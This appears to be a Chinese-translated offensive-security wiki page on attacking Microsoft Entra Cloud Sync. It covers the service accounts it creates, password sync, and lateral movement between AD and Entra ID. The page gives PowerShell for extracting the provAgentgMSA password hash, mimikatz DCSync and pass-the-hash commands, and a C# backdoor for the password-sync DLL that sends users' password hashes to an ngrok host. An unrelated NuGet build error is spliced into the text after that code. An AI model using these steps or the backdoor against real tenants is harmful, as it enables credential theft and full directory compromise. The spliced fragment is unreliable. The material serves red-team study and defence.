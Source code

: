 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}

## 基本信息

**Cloud Sync** 基本上是 Azure 用于 **将用户从 AD 同步到 Entra ID** 的新方式。

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync 是 Microsoft 提供的一项新服务，旨在满足和实现您在用户、组和联系人同步到 Microsoft Entra ID 的混合身份目标。它通过使用 Microsoft Entra 云配置代理而不是 Microsoft Entra Connect 应用程序来实现这一点。然而，它可以与 Microsoft Entra Connect Sync 一起使用。

### 生成的主体

为了使其正常工作，在 Entra ID 和本地目录中创建了一些主体：

- 在 Entra ID 中，用户 `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) 被创建，角色为 **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`)。

> [!WARNING]
> 此角色曾经拥有很多特权权限，可以用来 [**提升权限甚至到全局管理员**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)。然而，Microsoft 决定移除此角色的所有权限，并仅分配一个新的 **`microsoft.directory/onPremisesSynchronization/standard/read`**，这实际上不允许执行任何特权操作（如修改用户的密码或属性或向 SP 添加新凭据）。

- 在 Entra ID 中，还创建了没有成员或所有者的组 **`AAD DC Administrators`**。如果使用 [`Microsoft Entra Domain Services`](./az-domain-services.md)，此组非常有用。

- 在 AD 中，服务帐户 **`provAgentgMSA`** 被创建，SamAccountName 类似于 **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`)，或者需要具有 [**这些权限的自定义帐户**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)。通常会创建默认帐户。

> [!WARNING]
> 除其他权限外，服务帐户 **`provAgentgMSA`** 拥有 DCSync 权限，允许 **任何人如果妥协它就可以妥协整个目录**。有关 DCSync 的更多信息，请查看 [DCSync](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)。

> [!NOTE]
> 默认情况下，已知特权组（如域管理员）中具有 **`adminCount` 为 1 的用户出于安全原因不会与 Entra ID 同步。然而，其他没有此属性或直接分配高权限的特权组中的用户 **可以被同步**。

## 密码同步

该部分与以下内容非常相似：

{{#ref}}
az-connect-sync.md
{{#endref}}

- **密码哈希同步** 可以启用，以便用户能够 **使用他们在 AD 中的密码登录 Entra ID**。此外，每当在 AD 中修改密码时，它将在 Entra ID 中更新。
- **密码回写** 也可以启用，允许用户在 Entra ID 中修改他们的密码，并自动同步他们在本地域中的密码。但根据 [当前文档](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback)，这需要使用 Connect Agent，因此请查看 [Az Connect Sync 部分](./az-connect-sync.md)以获取更多信息。
- **组回写**：此功能允许将 Entra ID 中的组成员资格同步回本地 AD。这意味着如果用户被添加到 Entra ID 中的组，他们也将被添加到 AD 中的相应组。

## 侧向移动

### AD --> Entra ID

- 如果 AD 用户正在从 AD 同步到 Entra ID，则从 AD 到 Entra ID 的侧向移动是直接的，只需 **妥协某个用户的密码或更改某个用户的密码或创建一个新用户并等待它同步到 Entra ID 目录（通常只需几分钟）**。

例如，您可以：
- 妥协 **`provAgentgMSA`** 帐户，执行 DCSync 攻击，破解某个用户的密码，然后使用它登录 Entra ID。
- 只需在 AD 中创建一个新用户，等待它同步到 Entra ID，然后使用它登录 Entra ID。
- 修改 AD 中某个用户的密码，等待它同步到 Entra ID，然后使用它登录 Entra ID。

要妥协 **`provAgentgMSA`** 凭据：
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
现在您可以使用 gMSA 的哈希值对 Entra ID 执行 Pass-the-Hash 攻击，使用 `provAgentgMSA` 账户并保持持久性，从而能够对 AD 执行 DCSync 攻击。

有关如何破坏 Active Directory 的更多信息，请查看：

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> 请注意，无法根据其属性为同步用户在 Cloud Sync 配置中授予 Azure 或 EntraID 角色。然而，为了自动授予同步用户权限，某些 **来自 AD 的 Entra ID 组** 可能会被授予权限，因此这些组内的同步用户也会接收到这些权限，或者 **可以使用动态组**，因此始终检查动态规则和潜在的滥用方式：

{{#ref}}
../../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

关于持久性，[这篇博客文章](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) 建议可以使用 [**dnSpy**](https://github.com/dnSpy/dnSpy) 来后门 **`Microsoft.Online.Passwordsynchronisation.dll`**，该文件位于 **`C:\Program Files\Microsoft Azure AD Sync\Bin`**，由 Cloud Sync 代理用于执行密码同步，使其将被同步用户的密码哈希导出到远程服务器。哈希是在 **`PasswordHashGenerator`** 类内部生成的，博客文章建议添加一些代码，使该类看起来像（注意 `use System.Net` 和 `WebClient` 的使用以导出密码哈希）：
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet 包恢复失败，项目 AzTokenFinder：无法找到包 'System.Security.Cryptography.X509Certificates' 的版本 '4.3.2'。  
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: 在源 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\' 中未找到包 'System.Security.Cryptography.X509Certificates.4.3.2'。  
请查看错误列表窗口以获取详细的警告和错误。

### Entra ID --> AD

- 如果启用了 **Password Writeback**，您可以从 Entra ID 修改某些用户的密码，如果您可以访问 AD 网络，则可以使用这些密码进行连接。有关更多信息，请查看 [Az Connect Sync section](./az-connect-sync.md) 部分，因为密码写回是通过该代理配置的。

- 此时，Cloud Sync 还允许 **"Microsoft Entra ID to AD"**，但经过一段时间后我发现它无法将 EntraID 用户同步到 AD，并且它只能同步与密码哈希同步的 EntraID 用户，这些用户来自与我们要同步的域属于同一域林的域，正如您在 [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits) 中所读到的：

> - 这些组只能包含本地同步的用户和/或额外的云创建的安全组。  
> - 被同步的本地用户帐户和此云创建的安全组的成员，可以来自同一域或跨域，但它们都必须来自同一林。

因此，该服务的攻击面（和实用性）大大降低，因为攻击者需要破坏用户正在同步的初始 AD，才能破坏另一个域中的用户（而且这两个域显然必须在同一林中）。

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../../banners/hacktricks-training.md}}

